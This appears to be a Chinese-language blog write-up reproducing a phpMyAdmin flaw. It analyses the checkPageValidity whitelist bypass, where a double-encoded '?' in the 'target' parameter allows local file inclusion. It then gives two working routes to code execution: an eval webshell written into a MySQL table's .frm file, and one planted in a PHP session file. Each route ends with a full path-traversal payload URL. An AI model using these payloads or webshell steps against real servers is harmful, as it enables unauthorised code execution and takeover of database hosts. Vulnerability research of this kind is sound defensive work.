








前言
复现了一波alphalab师傅针对phpMyAdmin后台从LFI->RCE 。 发现他对于target白名单的绕过分析存在误点。
环境
操作系统：linux
php版本：5.6
web中间件：Apache2
版本影响
core类checkPageValidity方法参数引用值操作不当造成LFI->RCE
漏洞分析
漏洞触发点在/index.php第12行,target值可控
触发include文件包含需要满足if四个判断
1 |
|
前三个判断写死没有利用的价值，主要分析Core类checkPageValidity($_REQUEST['target'])方法

跟进core类checkPageValidity方法,/phpmyadmin/libraries/classes/core.php第443行
首先对whitelist白名单进行赋值，使用两次mb_substr对$_page即$_REQUEST['target']进行截取，并判断$_page是否在白名单中。
其实这里有意思的是程序员的本意应该是对$_REQUEST['target']进行文件字段截取，但是$page
引用值在该方法中赋值给了$_page，导致$page被架空。这也是导致LFI被能够被触发的关键点

漏洞利用
利用mysql的data文件
在
testDB中创建名为abc表，表中字段写入<?php eval($_GET[‘z’]); ?>
路径查询
在sql界面输入查询语句show variables like '%datadir%';
获取abc表文件路径
在
/var/lib/mysql/testdb/abc.frm中成功写入一句话
payload
http://127.0.0.1/phpmyadmin/index.php?z=phpinfo();&target=sql.php%253f/../../../../../../var/lib/mysql/testdb/abc.frm

phpMyadmin session利用
- 在sql界面输入查询语句
select “<>php eval($_GET[z]); exit(); ?>”;
(可在浏览器控制台查看session文件名称)
在lamp环境下/var/lib/php5/sessoons//sess_fvov0ts2lgmbqt6j4anb95st5h1e5chu 文件中成功下入一句话木马

- payload
http://127.0.0.1/phpmyadmin/index.php?z=phpinfo();&target=server_sql.php?/../../../../../var/lib/php5/sessions/sess_fvov0ts2lgmbqt6j4anb95st5h1e5chu
